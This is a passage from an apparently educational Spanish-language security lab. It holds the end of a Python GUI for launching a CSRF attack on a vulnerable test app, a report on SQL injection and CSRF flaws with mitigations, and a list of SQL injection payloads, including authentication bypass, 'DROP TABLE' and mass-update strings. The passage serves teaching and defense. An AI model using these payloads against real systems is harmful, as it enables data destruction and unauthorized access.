 ```python
    entry_id_cliente.pack(pady=5)

    # Botón para ejecutar el ataque
    ctk.CTkButton(root, text="Lanzar Ataque CSRF", command=atacar_csrf).pack(pady=10)

    # Cuadro de texto para mostrar resultados del ataque
    cuadro_resultado = ctk.CTkTextbox(root, width=400, height=200)
    cuadro_resultado.pack(pady=10)

    root.mainloop()

inicializar_interfaz_csrf()
```

------

## Informe de Vulnerabilidades y Fallas

### **Vulnerabilidad de Inyección SQL**:

- **Falla**: En el código de la aplicación vulnerable, no se están utilizando consultas parametrizadas. Las entradas del usuario se concatenan directamente en la consulta SQL, lo que permite que el atacante modifique la consulta.

- **Mitigación**: Usa **consultas parametrizadas** o **sentencias preparadas** en lugar de concatenar las entradas del usuario directamente en las consultas SQL.

  **Mitigación Ejemplo**:

  ```python
  query = "SELECT * FROM customers WHERE name = ?"
  cursor.execute(query, (entrada_maliciosa,))
  ```

### **Vulnerabilidad de CSRF**:

- **Falla**: No hay validación de un token CSRF en la aplicación vulnerable. Esto permite que cualquier usuario autenticado envíe solicitudes en nombre de otro usuario sin su consentimiento.

- **Mitigación**: Implementar un **token CSRF** único por usuario y verificarlo en cada solicitud que involucre acciones críticas.

  **Mitigación Ejemplo**:

  - Generar un token CSRF al cargar el formulario y verificarlo en el servidor antes de procesar la solicitud.

------

## **4. Ejemplos de Entradas Maliciosas para Inyección SQL**

1. **Entrada para Obtener Todos los Registros**:
   - **Entrada maliciosa**: `' OR '1'='1`
   - **Descripción**: Esto fuerza la consulta SQL a devolver todos los registros de la tabla.
2. **Eludir Autenticación**:
   - **Entrada maliciosa**: `' OR 'x'='x`
   - **Descripción**: Esto simula un ataque donde el atacante se autentica sin un usuario válido.
3. **Eliminar una Tabla**:
   - **Entrada maliciosa**: `'; DROP TABLE customers; --`
   - **Descripción**: Esto intenta eliminar la tabla `customers`.
4. **Modificar Datos de la Base de Datos**:
   - **Entrada maliciosa**: `'; UPDATE customers SET email='hacked@example.com'; --`
   - **Descripción**: Modifica el correo de todos los clientes a uno malicioso.
5. **Entrada para Inyectar Comentarios**:
   - **Entrada maliciosa**: `admin' --`